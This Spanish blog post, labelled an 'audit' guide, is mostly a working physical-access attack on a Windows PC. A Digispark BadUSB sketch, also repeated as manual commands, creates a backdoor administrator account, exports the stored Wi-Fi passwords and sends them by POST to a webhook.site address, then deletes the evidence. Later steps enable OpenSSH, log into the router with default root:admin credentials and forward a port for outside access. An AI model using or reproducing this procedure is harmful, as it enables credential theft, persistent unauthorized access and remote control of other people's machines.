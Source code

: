 ```yaml
---
layout: post
title: Todo lo que necesitamos para la auditoria
subtitle: Este articulo se eliminara el miercoles
cover-img: /assets/img/auditoria/icono.png
thumbnail-img: /assets/img/auditoria/icono.png
tags: [auditoria]
excerpt: "Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."
---
```


Hecho por boyras200

<br>
<br>

## Programa del digispark

```
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);

  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("simbolo");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(0x4F);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(0x51);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
  DigiKeyboard.println("net user Usuario-Auditoria D2z14IdWykPO /add");
  DigiKeyboard.println("net localgroup Administradores Usuario-Auditoria /add");
  DigiKeyboard.delay(200);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/d5dbbd9c-cf83-4df7-adfb-10894b22d13a -Method POST -InFile PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(250);
  DigiKeyboard.println("del Wi-* /s /f /q 6 del PASS"); //cleaning up all the mess
  DigiKeyboard.println("exit");

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
}
```

## Comandos por si no va el digispark

```
Windows. Simbolo del sistema, con permisos de administrador.
net user Usuario-Auditoria D2z14IdWykPO /add
net localgroup Administradores Usuario-Auditoria /add
cd %temp%
netsh wlan export profile key=clear");
powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > PASS
powershell Invoke-WebRequest -Uri https://webhook.site/d5dbbd9c-cf83-4df7-adfb-10894b22d13a -Method POST -InFile PASS
del Wi-* /s /f /q 6 del PASS
exit
```


Cuando en el script nos aparezca esto, le daremos a SI:

![](/assets/img/auditoria/cmd.png.jpg)


Despues clickaremos en el cmd:

![](/assets/img/auditoria/cmd2.jpg)


## Sacar IP

Vamos a sacar la IP privada del sistema. Para esto simplemete hacemos los siguiente:

`Windows + R` 

`cmd`

`ipconfig`

Nos deberia aparecer algo como esto:

![](/assets/img/auditoria/ipconfig.png)


![](/assets/img/auditoria/ipconfig2.png)


Ya tenemos la IP privada, la necesitaremos mas tarde.


## Habilitar ssh

Empezamos abriendo powershell como administrador:

![](/assets/img/auditoria/powershell.png)


Ahora ejecutaremos los siguientes comandos:


`Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'`

`Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0`

`Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`

`Start-Service sshd`

`Set-Service -Name sshd -StartupType 'Automatic'`

`if (!(Get-NetFirewallRule -Name "OpenSSH-Server-In-TCP" -ErrorAction SilentlyContinue | Select-Object Name, Enabled)) {
    Write-Output "Firewall Rule 'OpenSSH-Server-In-TCP' does not exist, creating it..."
    New-NetFirewallRule -Name 'OpenSSH-Server-In-TCP' -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
} else {
    Write-Output "Firewall rule 'OpenSSH-Server-In-TCP' has been created and exists."
}`


Ya hemos habilitado ssh.


## Router (actualizado)

Primero entramos en `https://www.cual-es-mi-ip.net/`

![](/assets/img/auditoria/ip.png)

Ahora vamos a `http://192.168.100.1/`

Ponemos las credenciales root:admin

Encontramos algo como esto:

![](/assets/img/auditoria/huwai.png)


Vamos a advanced:

![](/assets/img/auditoria/huwai2.png)

Vamos a fordward rules:

![](/assets/img/auditoria/huwai3.png)


Vamos a IPv4PortMapping:

![](/assets/img/auditoria/huwai4.png)


Le damos a new:

![](/assets/img/auditoria/huwai5.png)


Ponemos la IP privada:

![](/assets/img/auditoria/huwai6.png)


Le damos a add:

![](/assets/img/auditoria/huwai7.png)


Ponemos los siguientes parametros:

![](/assets/img/auditoria/huwai8.png)

Le damos a apply

# Ya debería estar funcionando todo.

